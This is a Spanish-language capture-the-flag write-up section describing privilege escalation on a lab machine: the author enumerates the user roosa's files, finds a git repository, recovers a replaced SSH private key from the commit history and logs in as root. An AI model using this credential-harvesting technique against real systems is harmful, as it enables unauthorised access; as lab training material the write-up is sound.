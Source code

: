 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
ls -la
id
sudo -l
```

Aqui vemos que el usuario roosa esta en el grupo sudo pero no tenemos su contraseña. Listando los ficheros del usuario **roosa**
vemos que hay muchos ficheros, lo analyzamos mas en profundidad.

```bash
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep -v ".local"
```

Aqui no llama la attencion un directorio que contiene un `.git`. Saviendo que repositorios **git** contienen un historico de tratamiento
de ficheros nos dirigimos en este proyecto y mirramos el historico de commits.

```bash
cd work/blogfeed/
ls -la
git log
```

mirrando el historico, vemos un mensaje un poco turbio **reverted accidental commit with proper key**

miramos lo que a passado en este commit. Nos copiamos el identificador del commit.

```bash
git log -p 33e87c312c08735a02fa9c796021a4a3023129ad
```

Aqui vemos que han borrado un key para ponerle otra. La copiamos y de la misma manera que con el usuario roosa, intentamos connectarnos como
root por ssh.

```bash
ssh -i id_rsa2 root@10.10.10.91
```

Y hemos podido entrar... Ya podemos examinar la flag.

